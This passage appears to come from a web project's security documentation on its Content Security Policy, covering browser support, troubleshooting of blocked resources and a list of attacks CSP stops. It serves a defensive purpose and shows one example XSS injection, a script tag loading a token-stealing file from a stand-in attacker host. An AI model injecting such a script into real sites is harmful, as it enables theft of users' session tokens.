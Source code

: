 ### Browser Support:
- ✅ Chrome/Edge: Full support
- ✅ Firefox: Full support
- ✅ Safari: Full support
- ⚠️ IE11: Partial support (deprecated anyway)

---

## 🔍 Troubleshooting

### "Resource blocked by CSP" errors?

1. Check console for exact directive that blocked it
2. Identify the domain/resource being blocked
3. Add to appropriate directive in `src/config/csp.ts`
4. Restart dev server

### DevExtreme styles not loading?

Already whitelisted: `https://cdn3.devexpress.com`  
If using different CDN, add to `style-src` and `font-src`

### Cognito redirect not working?

Cognito domains already whitelisted in `form-action`  
Check exact domain in browser network tab and add if different

---

## ✨ Benefits You're Now Protected Against

### What CSP Blocks:
- ✅ XSS attacks (malicious script injection)
- ✅ Unauthorized API calls
- ✅ Data exfiltration to external domains
- ✅ Inline script attacks
- ✅ eval() and Function() execution
- ✅ External frame embedding (clickjacking)
- ✅ Unauthorized resource loading

### Real-World Example:
If an attacker finds an XSS vulnerability and injects:
```html
<script src="https://evil.com/steal-tokens.js"></script>
```

**Without CSP:** Script loads and runs ❌  
**With CSP:** Blocked immediately with console error ✅

---
